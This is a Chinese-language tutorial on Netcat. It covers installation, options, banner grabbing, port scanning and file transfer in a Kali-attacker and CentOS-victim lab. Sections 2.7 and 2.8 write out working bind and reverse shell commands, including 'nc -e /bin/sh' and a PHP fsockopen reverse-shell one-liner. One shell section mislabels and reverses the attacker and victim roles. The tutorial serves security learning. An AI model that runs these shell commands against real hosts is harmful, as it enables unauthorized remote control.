# 1. **Netcat简介**

Netcat 是一款简单的Unix工具，使用UDP和TCP协议，被称为网络工具中的"瑞士军*刀"。它是一个可靠的容易被其他程序所启用的后台操作工具，同时它也被用作网络的测试工具或黑客工具。 使用它你可以轻易的建立任何连接。

## 1.1. **Netcat安装**

在Linux中都是自带Netcat的，如果没有，可以使用命令进行安装，安装完可以查看一下版本。

在centos7.X中使用yum install nc按照的不是Netcat，需要注意。

Windows中可以自行搜索安装，[官网链接](https://eternallybored.org/misc/netcat/)

### 1.1.1. **安装整体流程**

#### 1.1.1.1. **安装依赖**

```
命令：sudo yum install glibc*
```

 

#### 1.1.1.2. **安装Netcat**

```
命令：
wget https://sourceforge.NET/projects/netcat/files/netcat/0.7.1/netcat-0.7.1.tar.gz
tar -zxvf netcat-0.7.1.tar.gz -C /usr/local
cd /usr/local/netcat-0.7.1
./configure
make && make install
```

 

#### 1.1.1.3. **配置环境变量**

```
命令：vi /etc/profile
export NETCAT_HOME=/usr/local/netcat-0.7.1
export PATH=$PATH:$NETCAT_HOME/bin
```

 

#### 1.1.1.4. **测试**

这里可以使用nc -v，当然也可以使用netcat，其实是因为我难，难的卸载重新配置。

 

## 1.2. **Netcat基本功能**

telnet/获取系统bannet信息、传输文本信息、传输文件和目录、加密传输文件、端口扫描、远程控制、正方向shell等。

## 1.3. **Netcat常用参数**

Netcat它有许多参数可供使用，以下是一些常用的Netcat参数，可以根据自己的需要选择使用，同时，Netcat还有其他更多的参数，你可以通过查看其官方文档来了解。

-h：查看帮助信息。

-l：监听模式，等待其他计算机连接。

-p：指定监听的端口号。

-u：使用UDP协议。

-v：输出详细信息，如建立连接时显示IP地址和端口号。

-n：不使用DNS查找，使用IP地址进行连接。

-z：将输入/输出功能关闭，进行端口扫描。

-s：指定本地的IP地址。

-e：在连接建立后，将标准输入和输出重定向到一个指定的程序或脚本中。

-w：设置超时时间，等待连接或数据的时间。

-c：发送指定字节数的数据后关闭连接。

-i：设置发送数据的时间间隔。

-q：设置程序退出前的最大延迟时间。

-k：启用TCP保持活动状态。

-r：设置随机本地端口号。

-t：以telnet形式应答。

# 2. **Netcat用法**

nc常常跟着的参数有两个，一个是n、一个是v。

v参数就是列出执行过程的详细信息，n参数就只接收IP地址，没有dns，之所以使用n参数，是因为使用命令的过程中只去传入IP，减少了nc把域名解析为IP的过程，这样可以节省时间提高效率。

## 2.1. **前期准备**

两台主机都需要安装nc，以便后面的操作，nc很小，安装很快。

kali主机：192.168.10.20

centos7主机：192.168.10.30

## 2.2. **banner相关信息抓取**

```
kali命令：nc -nv 192.168.10.30 22
```

 

## 2.3. **端口扫描**

如果想要单纯的端口扫描的话，使用其它工具比如nmap会更好，而使用nc的主要用途就是在内网获取到权限后，再使用nc对内网进行扫描。nmap无法扫描内网。使用nc更多的是对内网扫描，若初期就需要端口扫描的话，不建议使用nc。

### 2.3.1. **扫描指定端口**

```
kali命令：nc -v 192.168.10.30
```

 

### 2.3.2. **扫描指定端口段**

```
kali命令：nc -vz 192.168.10.30 20-100
```

 

## 2.4. **监听端口**

监听本地端口，当访问该端口时会输出该信息到命令行，这里我使用一个云服务器来监听。

```
云服务器命令：nc -lp 8080
```

 

## 2.5. **文件传输**

首先在kali上开启监听，然后在centos7中发送文件，当发送文件后，kali上监听到后，就可以将文件保存下来。

这里不单单可以发送文件，像压缩包、目录等均可以传输，不过这里需要理解两个重定向符号 <和>，>是将文件进行输出，<是将文件进行输入。

### 2.5.1. **监听**

这里设置kali监听，简单来说就是接收文件，并将文件保存到1.txt中。

```
kali命令：nc -lp 333 > 1.txt
```

 

### 2.5.2. **发送**

这里设置centos7为发送，将当前目录下的2.txt发送至kail。

```
centos7命令：nc -vn 192.168.10.20 333 < 2.txt
```

 

## 2.6. **简易聊天**

nc 可以在两台机器之间相互传递信息，首先需要有一台机器进行监听一个端口，另一台以连接的方式去连接其指定的端口，这样两台机器之间建立了通信后，相互之间可以传输信息。

为了区分，kali上输入的是数字，而centos7上输入的字母。

```
kali命令：nc -lp 333
centos命令：nc -vn 192.168.10.20 333
```

 

 

## 2.7. **获取shell**

这里默认kail系统为攻击者、centos7系统为受害者。

### 2.7.1. **正向获取shell**

正向获取shell就是将centos7连接kali，centos7获取kali的shell权限。简单来说就是受害者获取攻击者的shell。

这里不使用Windows测试，只是将Windows系统的命令使用介绍一下。

#### 2.7.1.1. **攻击者**

```
kali命令：nc -lvp 4444 -e /bin/sh 
Windows命令：nc -lvp 4444 -e c:\windows\system32\cmd.exe
```

 

#### 2.7.1.2. **攻击者**

```
centos7命令：netcat 192.168.10.20 4444
```

 

### 2.7.2. **反向获取shell**

客户端连接服务器，服务器获取客户端的shell。通常用在开启防护措施的目标机，如防火墙过滤、端口转发的等。通常反向shell是最常用的。

#### 2.7.2.1. **攻击者**

```
kali命令：nc -lvp 4444 
```

 

#### 2.7.2.2. **受害者**

```
centos7命令：netcat 192.168.10.20 4444 -e /bin/sh
Windows命令：nc 192.168.1.1 999 -e c:\windows\system32\cmd.exe
```

 

## 2.8. **其它获取shell**

这里其它获取shell，就是通过不同的方式进行shell的反弹。这里可以使用反弹shell命令一键生成官网进行测试。

[一键生成反弹shell](https://forum.ywhack.com/reverse-shell/)

 

### 2.8.1. **PHP反弹shell**

#### 2.8.1.1. **生成反弹命令**

这里使用官网中配置，选择php即可生成反弹shell。

```
命令：php -r '$sock=fsockopen("192.168.10.20",7777);`sh -i <&3 >&3 2>&3`;'
```

 

#### 2.8.1.2. **攻击者**

这里的攻击者就是kali，按照官网上开启监听。

```
kali命令：nc -lvnp 7777
```

 

#### 2.8.1.3. **受害者**

这里的受害者就是centos7，按照官网上的生成的命令进行配置，我这里centos7上没有php，所以没成功正常情况下是能够成功的，这里我主要就是演示一下。

```
centos7命令：php -r '$sock=fsockopen("192.168.10.20",7777);`sh -i <&3 >&3 2>&3`;'
```

 